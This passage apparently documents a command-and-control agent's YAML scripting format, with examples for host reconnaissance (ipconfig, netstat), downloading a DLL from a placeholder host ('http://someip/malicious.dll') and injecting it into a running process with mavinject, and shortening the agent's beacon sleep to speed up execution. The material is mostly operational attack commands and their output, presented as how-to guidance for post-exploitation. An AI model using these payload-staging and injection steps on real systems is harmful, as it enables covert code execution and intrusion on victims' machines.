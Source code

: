 ```
shell ipconfig /all
shell netstat -ano
```

---

### **2. File Download & Execution**  
Used for retrieving and running payloads.  

#### **Example: Download and Inject a DLL**  
```yaml
commands:
  - name: inject_dll
    description: "Download and inject a DLL into a running process"
    steps:
      - action: get_file
        args: ["http://someip/malicious.dll", "C:\\malicious.dll"]

      - action: start-process
        args: ["mavinject", "<PID>", "/INJECTRUNNING", "C:\\malicious.dll"]
```
🔹 **Execution Output:**  
```
get_file http://someip/malicious.dll C:\malicious.dll
start-process mavinject <PID> /INJECTRUNNING C:\malicious.dll
```

---

### **3. Sleep & Timing Control**  
Used to change the checkin time of the agent.

A nice trick for if you need the commands to run faster, and not take forever, is to just pop some sleep commands in there to change the checkin timing

#### **Example: Modify Sleep Timing**  
```yaml
commands:
  - name: timed_execution
    description: "Run commands with shorter checkin times"
    steps:
      - action: sleep
        args: [2]  # Shrink sleep to 2 seconds

      - action: shell
        args: ["dir C:\\"]

      - action: shell
        args: ["dir D:\\"]

      - action: sleep
        args: [10]  # crank it back up at the end of the script
```
🔹 **Execution Output:**  
```
sleep 2
shell dir C:\
shell dir D:\
sleep 10
```

